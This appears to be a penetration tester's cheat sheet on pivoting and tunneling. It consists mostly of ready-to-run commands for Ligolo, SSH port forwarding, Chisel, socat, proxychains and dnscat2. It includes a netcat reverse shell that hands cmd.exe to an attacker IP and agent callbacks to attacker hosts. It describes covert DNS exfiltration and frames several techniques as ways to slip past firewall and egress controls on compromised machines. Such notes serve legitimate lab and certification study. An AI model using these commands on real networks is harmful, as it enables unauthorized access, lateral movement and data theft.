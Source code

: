 ## Port Tunneling & Redirection

#### Ligolo

Think of it as disguising your machine as the pivot machine in the eyes of the firewall. Favorite for tunnelling.

Scenarios.
- Use a service that is only available on the localhost of the target like RDP or web server.
- Transfer files from internal (through pivot) to attacker and vise versa.


```bash
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.16.201.0/24 dev ligolo # Discard 4th octect of victim machine's internal ip
ip route list
sudo ligolo-proxy -selfcert

./agent -connect 192.168.45.221:11601 -ignore-cert -retry # Target

session # select the session that you want to work with
1
start
listener_add --addr 0.0.0.0:3389 --to 127.0.0.1:3389
listener-list # confirm

.\nc.exe 172.16.157.14 1234 -e cmd.exe # On target machine to receive revshell
# If web server, access browser and/or direct attacks to localhost:port

# Great for transferring files when testing AD
listener_add --addr 0.0.0.0:1433 --to 172.10.121.15:1433 # If you need to use specific port for internal
```

You may need to create certificates:

```bash
mkdir -p ~/Downloads/certs
cd ~/Downloads/certs
openssl req -newkey rsa:2048 -new -nodes -x509 -days 3650 -keyout key.pem -out cert.pem
```

#### Local Forwarding

Binding local ports to dmz ones and using your local machine to act as the (accessible) remote machine.

#### Local Port Forwarding

Local port forwarding allows you to forward a port on the local machine to a remote server. This is useful for accessing a remote service as if it were running on your local machine.
- Access an internal database via a pivot machine, bypassing rules against direct external connections.
- Connect to an email server's local-only management interface, circumventing local access restrictions.
- Reach a DMZ server without direct connections, navigating DMZ-specific ingress rules.
- Bypass firewall blocks on remote ports to access restricted services.
- Transfer files to a non-directly accessible server, overcoming remote file transfer blocks.

Access remote HTTPS website on port 443.

```bash
ssh -N -L localhost:localPort:destinationServer:remotePort user@SSHserver
ssh -N -L 127.0.0.1:443:127.0.0.1:8443 web_admin@10.4.50.215
ssh -N -L 9000:localhost:8000 -i 245/id_ecdsa anita@192.168.196.246 -p 2222
```

Upload files to remote.

```bash
ssh -N -L 9000:dmz_ip:22 user@dmz_ip
scp -P 9000 local_backup_file.tar.gz localhost:/path/to/destination/
```

Download files from remote.

```bash
ssh -L 9001:internal_server:22 user@pivot_machine # Download files from remote
scp -P 9001 localhost:/path/to/config_file.conf /local/path/ 
```


### Local Dynamic Port Forwarding

Allows you to create a SOCKS proxy server on the local machine, which can be used to forward requests dynamically to multiple destinations.

- Use the dynamic port forwarding to scan multiple ports on a target network without setting up individual port forwards for each.
- Access multiple services on different ports and different servers through a single local SOCKS proxy.

```bash
ssh -fND 0.0.0.0:9999 database_admin@10.4.50.215
socks4 127.0.0.1 9999 # Edit /etc/proxychains4.conf
proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217
```

```bash
chisel server --reverse --port 51234 # Attacker, make sure this port is open in the firewall
/tmp/chisel client kali_ip:51234 50080:socks
```

#### Remote Forwarding

Using a pivot machine as a middle man.

Scenarios.
- Internal AD environment is shut off to you, use your compromised machine as a pivot to dig further.
- Transfer files from internal to attacker through pivot.

#### Remote Port Forwarding

Remote port forwarding allows you to forward a port on the remote server to a local machine. This is useful for exposing local services to a remote network.

- Expose an internal web server via a remote pivot.
- Strict firewall egress doesn't allow traffic in or out of 1433 outside of the network.
- Provide remote access to a local file server, overcoming local network file access restrictions.

```bash
chisel server --reverse --port 51234
/tmp/chisel kali_ip:51234 R:8001:127.0.0.1:8001 R:8443:127.0.01:8443
curl localhost:8443 # On attacker machine
```

```bash
ssh -N -R remotePort:localServer:localPort kali@$myip # On pivot machine
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
psql -h 127.0.0.1 -p 2345 -U postgres # Now access PostgreSQL via Local Port
```

Upload files to internal.

```bash
ssh -R 9002:localhost:22 user@internal_ip # Execute commands on pivot machine
scp -P 9002 update_package.zip internal_user@localhost:/path/to/internal_folder/
```

### Remote Dynamic Port Forwarding

Remote dynamic port forwarding allows setting up a SOCKS proxy on a remote server to dynamically forward traffic from the remote server to multiple destinations.

- Internal AD environment is shut off to you, use your compromised machine as a pivot to dig further.
- Access services across remote networks, bypassing direct internet exposure rules.
- Perform network monitoring from afar, avoiding restrictions on external monitoring tools.

```bash
ssh -N -R remotePort:localServer:localPort kali@$myip # On pivot machine
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
psql -h 127.0.0.1 -p 2345 -U postgres # Now access PostgreSQL via Local Port
```

### Chisel

Scenarios.
- You compromised Confluence server, but only HTTP outbound traffic is allowed.
- A network administrator blocks all outbound SSH traffic, affecting SSH-based tunneling strategies.

Troubleshooting.
- Make sure versions are compatible.
- Ensure ip addresses are in the right locations

Using target's service that's only available on their localhost.

```bash
chisel server --reverse --port 51234 # Attacker
./chisel client $myip:51234 R:8443:127.0.0.1:8443 # Target
```

Masquerading as HTTP traffic.

```bash
chisel server --reverse --socks5 -p 8001 &> /tmp/output 
chisel server --port 8080 --reverse &> /tmp/output # For TCP Traffic

./chisel client 192.168.45.221:8001 R:socks # Client

socks5 127.0.0.1 8001 # sudo vi /etc/proxychains5.conf
proxychains ...
```

```bash
/tmp/chisel server --reverse --port 51234
/tmp/chisel client kali_ip:51234 R:50080:socks
```

### Port Redirection with Socat

Scenario.
- Redirect traffic from an external-facing port to an internal service.

```bash
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22 # Victim
ssh database_admin@192.168.50.63 -p2222
```

### Using Browser with Proxychains

Configure Proxychains

```bash
socks4 127.0.0.1 9050 # Edit /etc/proxychains.conf
proxychains firefox
```

### DNS Tunneling

Scenarios.
- Sending data out of a network covertly via DNS queries.
- Sending data into a network covertly via DNS responses.

#### Basic Usage

```bash
dnscat2-server <YOUR_DOMAIN> # Attacker
./dnscat <YOUR_DOMAIN> # Target
```

#### Network Monitoring

```bash
tcpdump -i eth0 'tcp port 80' # Monitor HTTP Traffic
tcpdump -i eth0 'udp port 53' # Monitor DNS Queries
```

#### Resourcess

[Ligolo](https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5)
[Port Forwarding](https://github.com/twelvesec/port-forwarding)